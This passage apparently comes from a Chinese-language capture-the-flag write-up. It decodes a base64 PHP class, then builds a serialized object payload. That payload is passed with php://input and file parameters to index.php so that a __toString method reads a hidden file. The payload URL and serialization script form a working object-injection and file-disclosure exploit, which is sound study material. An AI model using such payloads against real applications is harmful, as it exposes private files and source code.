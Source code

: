 ```html
hello admin!
PD9waHANCmVycm9yX3JlcG9ydGluZyhFX0FMTCAmIH5FX05PVElDRSk7DQogDQpjbGFzcyBSZWFkey8vZjFhOS5waHANCiAgICBwdWJsaWMgJGZpbGU7DQogICAgcHVibGljIGZ1bmN0aW9uIF9fdG9TdHJpbmcoKXsNCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsNCiAgICAgICAgICAgIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJHRoaXMtPmZpbGUpOyAgICANCiAgICAgICAgfQ0KICAgICAgICByZXR1cm4gIl9fdG9TdHJpbmcgd2FzIGNhbGxlZCEiOw0KICAgIH0NCn0NCj8+
```

解Base64得到class.php：

```php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```

注意到`__toString()`函数执行时会读取并打印`$this->file`的内容，构造序列化脚本：

```php
<?php
class Read{
	public $file;
}

$payload = new Read();
$payload->file = 'f1a9.php';
echo serialize($payload);
//O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

赋值给`pass`，当作为字符串是将调用**__toString()**读取f1a9.php的内容，Payload：

```html
/index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```

![](/assets/images/move/1552917136762-f843082b-862d-43c1-880c-5c0230ef6e27.png)